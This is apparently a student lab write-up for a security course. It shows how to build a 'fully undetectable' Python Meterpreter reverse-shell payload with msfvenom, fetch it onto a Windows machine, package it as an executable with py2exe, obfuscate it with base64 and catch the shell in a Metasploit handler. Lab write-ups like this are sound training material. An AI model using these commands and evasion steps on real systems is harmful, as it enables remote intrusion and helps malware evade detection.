 ## Ops Challenge 30

### Part 1: Staging

------

#### Download and import the Metasploitable 3 Windows 2008 OVA into VirtualBox

![Screenshot 2022-01-12 at 12.45.21](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 12.45.21.png)

#### Open the README file on the desktop

![Screenshot 2022-01-12 at 12.49.41](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 12.49.41.png)

### Part 2: FUD Payload

------

Let's go over to the Kali Linux machine and create the Python payload. And start the server (IP address must be for the local machine:

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=443 -f raw -o /var/www/html/mrtp.py

service apache2 start
```

![Screenshot 2022-01-12 at 13.14.22](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 13.14.22.png)

Copy the payload “mrtp.py” back to yer Windows machine. Using powershell, run:

```
wget http://192.168.56.101/mrtp.py -O mrtp.py
```

![Screenshot 2022-01-12 at 13.26.35](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 13.26.35.png)

Create a setup.py file with the following content:

```python
from distutils.core import setup
import py2exe
setup(
name = "Meter",
description = "Python-based App",
version = "1.0",
console=["mrtp.py"],
options = {"py2exe": {"bundle_files": 1,"packages":"ctypes","includes": "base64,sys,socket,struct,time,code,platform,getpass,shutil",}},
zipfile = None,
)
```

Bundle the standalone Python executable with Py2Exe:

```
python.exe .\setup.py py2exe
```

![Screenshot 2022-01-12 at 14.32.37](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 14.32.37.png)

Test the artifact “mrtp.exe” created under the dist folder:

`.\dist\mrtp.exe`

![Screenshot 2022-01-12 at 14.36.04](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 14.36.04.png)

Go back to kali and run Metasploit (note that 192.168.56.101 is the IP address of the kali machine). Run with `sudo`:

```
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 443
run
```

![Screenshot 2022-01-12 at 14.45.18](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 14.45.18.png)

Now let's test it on the windows machine. Copy the “mrtp.exe” file directly to the Windows 10 box and run it while Metasploit handler is listening on port 443. As you can see by the screenshot below the meterpreter session wsa succesfully established.

![Screenshot 2022-01-12 at 19.28.42](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 19.28.42.png)

#### Part 3: Custom FUD Payload

------

To create a custom payload using this technique we have to edit the `mrtp.py`file after generating it with msfvenom.

Create a custom Python script:

![Screenshot 2022-01-12 at 19.46.18](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 19.46.18.png)

![Screenshot 2022-01-12 at 19.49.23](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 19.49.23.png)

Encode it with base64 encoding and adding it to the existing “mrtp.py” script:

![Screenshot 2022-01-12 at 20.07.44](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 20.07.44.png)

![Screenshot 2022-01-12 at 20.04.33](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 20.04.33.png)

Copy the new “mrtp.py” back to the Windows machine and repeat the bundling steps:

```
wget http://192.168.56.101/mrtp.py -O mrtp.py
python.exe .\setup.py py2exe
.\dist\mrtp.exe
```

And we have a custom payload!

![Screenshot 2022-01-12 at 20.21.08](/Users/baphomet/codefellows/learning/ops-401/screenshots/class-30/Screenshot 2022-01-12 at 20.21.08.png) 